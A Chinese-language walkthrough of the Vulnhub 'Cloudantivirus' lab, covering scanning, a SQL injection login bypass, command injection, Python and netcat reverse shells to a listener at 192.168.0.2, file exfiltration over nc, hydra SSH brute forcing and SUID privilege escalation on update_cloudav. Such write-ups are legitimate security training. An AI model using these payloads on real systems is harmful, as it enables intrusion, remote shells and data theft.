 ```yaml
---
title: Chapter2_Easy_Cloudantivirus
categories:
- Network_Security
- Vulnhub
- Chapter2
tags:
- Network_Security
- Vulnhub
---
```


# Cloudantivirus 记录

## 1. 流程记录

### 1.1 扫描与发现

1. 主机发现，arp-scan 是偏向黑客工具，而 arping 是 Linux 发行版常见的工具。
    缺点：arping 不支持网段的扫描，因此需要结合 Linux 脚本循环命令使用。

    ```shell
    for i in $(seq 3 254); do sudo arping -c 2 192.168.0.$i; done
    # 扫描 192.168.0.3-254，-c 表示 count
    ```

2. 端口扫描：
    `sudo nmap -Pn -sV 192.168.0.104 -p 1-65535`
    ![image-20240112141214011](Chapter2_Easy_Cloudantivirus/image-20240112141214011.png)

3. 目录爆破
    `dirsearch -u http://192.168.0.104:8080/`
    ![image-20240112142933497](Chapter2_Easy_Cloudantivirus/image-20240112142933497.png)
    访问了之后，没啥可利用的页面

4. burp fuzz 一下特殊符号，看看异常：

    ![image-20240112142910986](Chapter2_Easy_Cloudantivirus/image-20240112142910986.png)
    发现 `"` 异常厉害，着重关注一下。

### 1.2 打点

1. 发现 SQL 注入，万能密码开梭 `1" or 1=1 -- -`，进入系统：
    ![image-20240112144303351](Chapter2_Easy_Cloudantivirus/image-20240112144303351.png)

2. 猜测是命令执行漏洞，逻辑是 `./扫描程序 文件名`，先用 `hello | id` 检测：
    ![image-20240112145302878](Chapter2_Easy_Cloudantivirus/image-20240112145302878.png)
    验证成功，确实是。

### 1.3 反弹 Shell

1. 使用 Python 来反弹 shell，又或者看目标机器上是否有 NC：
    `hello | python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
    用 NC：

    ```bash
    hello | which nc
    hello | /bin/nc 192.168.0.2 4444 -e /bin/sh # 低版本的 NC 没有 -e 参数
    hello | /bin/nc 192.168.0.2 4444 # 测试发现可行，但没有返回 Shell
    ```

2. NC 串联：
    `hello | /bin/nc 192.168.0.2 4444 | /bin/bash | /bin/nc 192.168.0.2 5555 # nc 串联，使用 | 将结果向后传递。`
    创建两个监听端口后，4444 端输入的内容会在靶机的 /bin/bash 下执行，（由于管道符 `|`)，结果会发送到 5555 端：
    ![image-20240112151651716](Chapter2_Easy_Cloudantivirus/image-20240112151651716.png)

### 1.4 内部的信息收集与提权

1. 用下载他的 database.sql 文件，本机执行一下，看看有什么特殊信息：

    ```bash
    file database.sql # 发现是 sqlite3 的数据库文件
    nc -vlnp 6666 > db.sql
    nc 192.168.0.2 6666 < database.sql # 在 4444 中执行，将该文件的内容传输到连接通道中去。
    sqlite3 # kali 中打开数据库环境
    sqlite> .open db.sql # 打开数据库文件
    sqlite> .database # 查看当前加载的数据库
    sqlite> .dump # 查看脚本内容
    ```

2. 看样子都是密码，考虑这个密码是不是登录界面的密码，尝试了一下，确实是。同时猜测是否是其 ssh 的密码：
    ```bash
    cat /etc/passwd
    cat /etc/passwd | grep /bin/bash # 筛选能通过 ssh 登录的用户
    ```

    生成用户名和密码（来自数据库）字典，用 hydra 爆破。
    ```bash
    vim username.txt
    vim password.txt
    hydra -L username.txt -P password.txt ssh://192.168.0.104
    ```

    结果没用。

3. 放弃，从其他的角度寻找提权的方式，再进行信息收集，查看文件，结果在上级文件夹下，存在文件：
    ![image-20240112155614433](Chapter2_Easy_Cloudantivirus/image-20240112155614433.png)
    update_cloudav 符合 suid 提权条件：

    > https://blog.csdn.net/lv8549510/article/details/85406215
    >
    > suid 作用：给一个用户继承二进制程序所有者拥有的权限，即当执行该文件时，用户暂时获得该二进制文件所有者的权限。

    如果该文件中执行反弹 shell，那么生成的 shell 就有了 root 权限。
    update_cloudav 文件应该是 update_cloudav.c 的二进制文件。

4. 查看更新文件的源码：
    ![image-20240112160113060](Chapter2_Easy_Cloudantivirus/image-20240112160113060.png)
    大概分析一下：`command` 变量为命令执行的语句，该命令调用了 `freshclam`（Clamav) 的程序，其中要求添加一个参数。
    再次构建 payload（参数中执行命令)：
    `./update_cloudav "a | nc 192.168.0.2 6666 | /bin/bash | nc 192.168.0.2 7777"`

5. 至此，提权结束：
    ![image-20240112160749970](Chapter2_Easy_Cloudantivirus/image-20240112160749970.png)

## 2. 知识点总结

1. arping 与 shell 脚本的混合使用
2. NC 串联
3. ssh 密码爆破思路
4. suid 提权